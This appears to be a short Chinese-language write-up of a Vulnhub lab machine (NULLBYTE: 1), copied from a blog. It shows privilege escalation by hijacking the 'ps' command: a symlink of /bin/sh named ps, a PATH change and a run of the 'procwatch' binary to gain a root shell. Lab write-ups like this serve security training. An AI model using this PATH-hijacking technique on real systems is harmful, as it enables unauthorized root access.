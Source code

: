 # 命令劫持提权

[Vulnhub-靶机-NULLBYTE: 1 - 皇帽讲绿帽带法技巧 - 博客园 (cnblogs.com)](https://www.cnblogs.com/autopwn/p/13613955.html)

看到有个backup文件夹，过去看看

<img src=".\图片\700440-20200904145949019-714744502.png" alt="img"  />

 

看见文件procwatch且是二进制文件，而且每个用户都有执行权限，执行一下看看

<img src=".\图片\700440-20200904150114604-2110976323.png" alt="img"  />

 

发现像是使用shell脚本的形式执行了ps命令，这里如果懂二进制的话，大可以直接去调试二进制文件看看，可以参考：https://www.nuharborsecurity.com/nullbyte-1-walkthrough/

知道上面的结果那么我们可以劫持ps命令提权了

可以使用下面方法提权

```
cd /var/www/backup
ln -s /bin/sh ps
export PATH=.:$PATH
./procwatch
```

也可以生成一个ps文件，然后里面写/bin/sh就可以，给这个文件所有权限然后执行二进制即可提权

最终得到目标靶机的proof.txt

<img src=".\图片\700440-20200904150456751-663004609.png" alt="img" style="zoom:80%;" />